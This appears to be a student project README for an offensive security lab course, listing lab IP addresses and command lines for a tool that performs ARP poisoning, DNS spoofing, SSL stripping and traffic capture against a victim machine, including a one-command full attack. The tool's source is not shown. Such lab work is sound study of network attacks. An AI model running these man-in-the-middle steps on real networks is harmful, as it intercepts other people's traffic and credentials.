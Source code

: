 # 2IC80Project
Lab on Offensive Computer Security
"
### Video link of the demo
https://www.youtube.com/watch?v=uOcwnNOZDNY&ab_channel=Ruud
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --ipToSpoof "10.0.123.1"`

3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

4. SSL Strip traffic coming from the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
5. Forward `sudo python3 main.py --interface "enp0s10" forward --ipVictim "10.0.123.5" --siteToSpoof "google.com" --get_file ./get.txt --post_file ./post.txt`

# Or Run the full attack at once:
### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
1. `sudo python3 main.py --interface "enp0s10" fullAttack --ipVictim "10.0.123.5" --ipGateway "10.0.123.1" --siteToSpoof "google.com" --get_file ./get.txt --post_file ./post.txt`
